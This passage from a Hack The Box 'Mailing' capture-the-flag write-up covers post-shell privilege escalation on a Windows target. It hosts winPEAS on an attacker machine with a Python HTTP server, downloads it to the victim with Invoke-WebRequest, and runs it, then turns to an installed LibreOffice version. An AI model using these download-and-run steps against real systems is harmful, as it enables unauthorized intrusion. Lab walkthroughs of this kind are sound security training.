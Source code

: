 Boom, we have a shell. Now time for privesc!

### Escalation

We could run our favorite escalation & enumeration tool [winPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS) but I'll save some time in this writeup and just say it didn't show me anything of value

### Winpeas doesn't find anything, skip ahead

```bash
python3 -m http.server 9001
```

```powershell
Invoke-WebRequest URI "http://10.10.14.36:9001/winPEASx64.exe" -OutFile C:\Users\maya\Desktop\winpeas.exe
```

![Invoke Webrequest](/assets/images/HTB%20-%20Mailing/Invoke%20Web%20Request.png)

Now run winpeas

```powershell
.\winpeas.exe
```

Ah, winpeas doesn't show anything of value. However, navigating the file system a bit we leads us to `LibreOffice` that's installed. Checking the version.ini file found inside the directory shows us the version

![LibreOffice Version](/assets/images/HTB%20-%20Mailing/Libre%20Office%20Version.png)
